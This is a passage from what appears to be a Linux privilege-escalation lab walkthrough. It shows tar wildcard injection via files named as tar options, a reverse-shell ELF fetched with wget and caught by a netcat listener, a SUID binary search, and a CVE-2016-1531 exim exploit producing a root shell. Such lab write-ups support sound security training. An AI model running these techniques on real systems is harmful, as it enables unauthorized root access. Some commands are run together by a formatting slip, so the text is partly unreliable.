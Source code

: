 
Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

we are be connected to root user.

Task 11 : SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
more...
```

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.

<img width="1919" height="769" alt="LPE11" src="https://github.com/user-attachments/assets/f4583ef6-4ac4-488d-b0d0-2516674ea05a" />


this exploit is present in Debian VM.

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

```bash
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# whoami
root
sh-4.1# 

```
